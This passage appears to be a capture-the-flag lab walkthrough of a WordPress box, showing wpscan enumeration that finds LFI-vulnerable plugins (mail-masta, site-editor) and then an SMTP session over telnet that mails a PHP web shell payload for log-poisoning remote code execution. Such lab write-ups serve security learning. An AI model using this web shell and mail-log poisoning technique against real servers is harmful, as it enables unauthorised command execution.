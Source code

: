 We have a different route `h3l105`

## /h3l105

This is a wordpress site. So let's start a `wpscan`

```jsx
$ wpscan --url http://symfonos.local/h3l105/ -e ap,u
-e enumerate 
ap all plugins
u all users
```

This gives us two plugins which are both vulnerable to LFI

```jsx
[i] Plugin(s) Identified:

**[+] mail-masta**
 | Location: http://symfonos.local/h3l105/wp-content/plugins/mail-masta/
 **| Latest Version: 1.0 (up to date)**
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt

**[+] site-editor**
 | Location: http://symfonos.local/h3l105/wp-content/plugins/site-editor/
 **| Latest Version: 1.1.1 (up to date)**
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/site-editor/readme.txt
```

## LFI to RCE

Tried different method to read files so that these files could contain malicious PHP code that I could execute. 

Could not find any such files. Later realized that port 25 is open suggesting us to read the mail

### Sending malicious content in the mail

```jsx
telnet symfonos.local 25
> MAIL FROM:test
> RCPT TO:helios
> data
<?php system($_GET['cmd']); ?>
.
> quit
```
